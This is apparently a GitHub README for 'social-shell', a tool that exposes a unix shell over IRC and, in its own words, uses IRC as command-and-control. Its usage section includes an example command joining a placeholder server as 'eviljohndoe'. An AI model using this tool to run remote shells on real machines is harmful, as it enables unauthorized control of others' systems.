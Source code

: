 # social-shell
A binary to chat with your unix shells on IRC, a binary to utilize IRC software as C2.<br>
Orignally made by [Aalekh Motani](https://github.com/aalekh-ul).<br>

**Usage:**<br>
To get the help menu: <code> ./ircshell -h </code>.<br> 
<br>
**All options**: <code>./ircshell -s [IRC server ip or domain] -c [channel to join] -u [username to join with] -a [username you have to join with ircclients, user who is waiting for output]</code>.<br>
<br>
**Example**: <code>./ircshell -s irc.fakeserver.chat -c fakechannel -u johndoe -a eviljohndoe </code>.<br>
<br>

**License**
**GPLv3+:** GNU GPL version 3 or later https://gnu.org/licenses/gpl.html

This is free software: you are free to change and redistribute it.<br>


